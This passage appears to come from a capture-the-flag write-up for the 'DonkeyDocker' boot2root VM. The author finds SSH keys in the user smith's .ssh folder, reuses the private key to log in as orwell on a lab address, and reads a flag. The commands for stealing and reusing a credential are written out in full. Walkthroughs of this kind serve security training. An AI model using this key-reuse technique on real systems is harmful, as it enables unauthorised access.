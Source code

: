 Inside smith's home we also have a .ssh folder. Inside we have a pair of private-public keys.

```
-rwx------ 1 smith users  411 Mar 22  2017 id_ed25519
-rwx------ 1 smith users  101 Mar 22  2017 id_ed25519.pub
smith@12081bd067cc:~/.ssh$ cat id_ed25519.pub
cat id_ed25519.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICEBBzcffpLILgXqY77+z7/Awsovz/jkhOd/0fDjvEof orwell@donkeydocker
```

And the SSH user is orwell. So let's copy the private key to our machine and try to SSH in as orwell:

```
ssh -i id_ed25519 orwell@192.168.159.132
Welcome to

  ___           _            ___          _
 |   \ ___ _ _ | |_____ _  _|   \ ___  __| |_____ _ _
 | |) / _ \ ' \| / / -_) || | |) / _ \/ _| / / -_) '_|
 |___/\___/_||_|_\_\___|\_, |___/\___/\__|_\_\___|_|
                        |__/
                             Made with <3 v.1.0 - 2017

This is my first boot2root - CTF VM. I hope you enjoy it.
if you run into any issue you can find me on Twitter: @dhn_
or feel free to write me a mail to:

 - Email: dhn@zer0-day.pw
 - GPG key: 0x2641123C
 - GPG fingerprint: 4E3444A11BB780F84B58E8ABA8DD99472641123C

Level:       I think the level of this boot2root challange
             is hard or intermediate.

Try harder!: If you are confused or frustrated don't forget
             that enumeration is the key!

Thanks:      Special thanks to @1nternaut for the awesome
             CTF VM name!

Feedback:    This is my first boot2root - CTF VM, please
             give me feedback on how to improve!

Looking forward to the write-ups!

donkeydocker:~$
```

It worked! In orwell's home we find another flag:

```
donkeydocker:~$ ls -al /home/orwell
total 24
drwxr-sr-x    3 orwell   orwell        4096 Mar 26  2017 .
drwxr-xr-x    3 root     root          4096 Mar 22  2017 ..
-rw-r--r--    1 root     orwell           1 Mar 26  2017 .ash
-rw-------    1 orwell   orwell          45 Apr 15 18:12 .ash_history
drwx--S---    2 orwell   users         4096 Mar 22  2017 .ssh
-rw-r--r--    1 orwell   orwell         104 Mar 22  2017 flag.txt
donkeydocker:~$ cat flag.txt
You tried harder! Good work ;-)

Here a flag for your effort: flag01{e20523853d6733721071c2a4e95c9c60}
```
